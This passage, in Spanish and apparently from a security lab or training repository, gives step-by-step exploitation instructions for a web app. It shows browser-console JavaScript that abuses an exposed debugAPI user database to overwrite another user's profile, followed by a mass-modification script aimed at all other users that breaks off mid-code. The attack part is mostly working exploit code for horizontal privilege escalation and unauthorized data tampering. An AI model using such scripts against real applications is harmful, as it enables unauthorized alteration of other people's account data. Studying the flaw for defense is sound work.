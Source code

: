 **Usando las herramientas de desarrollador:**
1. Login como `jaranguiz` (ID: 2)
2. Ir al perfil de otro usuario via URL: `/profile/3`
3. Si el formulario de edición está disponible, modificar los datos
4. **O ejecutar directamente en console:**

```javascript
// MÉTODO PRÁCTICO: Manipular datos directamente en debugAPI (si está disponible)
if (window.debugAPI && window.debugAPI.usersDatabase) {
  console.log("🚨 ACCESO DIRECTO A BASE DE DATOS DETECTADO");
  
  // Ver datos actuales del usuario objetivo (James, ID: 3)
  const targetUser = window.debugAPI.usersDatabase.find(u => u.id === 3);
  console.log("📋 Datos originales de James:", targetUser);
  
  // Modificar directamente (simulando escalada horizontal)
  if (targetUser) {
    const originalData = { ...targetUser.profile };
    
    // Realizar modificación maliciosa
    targetUser.profile = {
      ...targetUser.profile,
      fullName: "James HACKEADO por " + JSON.parse(localStorage.getItem('user')||'{}').username,
      phone: "+56-555-HACKED",
      department: "Departamento Comprometido"
    };
    
    console.log("✅ Datos modificados exitosamente:");
    console.log("   Original:", originalData);
    console.log("   Modificado:", targetUser.profile);
    console.log("🔄 Navega a /profile/3 para ver los cambios");
  }
} else {
  console.log("❌ debugAPI no disponible. Métodos alternativos:");
  console.log("   1. Usar herramientas de red del navegador");
  console.log("   2. Modificar datos via formularios de la UI");
  console.log("   3. Buscar endpoints de API expuestos");
}
```

#### **Método 2: Script Masivo de Modificación**
```javascript
// Script para modificar múltiples perfiles usando acceso directo
const modifyAllUsers = async () => {
  if (!window.debugAPI || !window.debugAPI.usersDatabase) {
    console.log("❌ debugAPI no disponible. Usar métodos manuales.");
    return;
  }
  
  const currentUserData = JSON.parse(localStorage.getItem('user') || '{}');
  console.log(`🚨 Atacando desde usuario: ${currentUserData.username}`);
  
  const maliciousUpdate = {
    fullName: "USUARIO HACKEADO",
    phone: "+56-555-PWNED",
    department: "SECURITY BREACH"
  };
  
  window.debugAPI.usersDatabase.forEach(user => {
    if (user.id !== currentUserData.id) {
      const originalData = { ...user.profile };
      
      // Aplicar modificación maliciosa
      user.profile = {
        ...user.profile,
```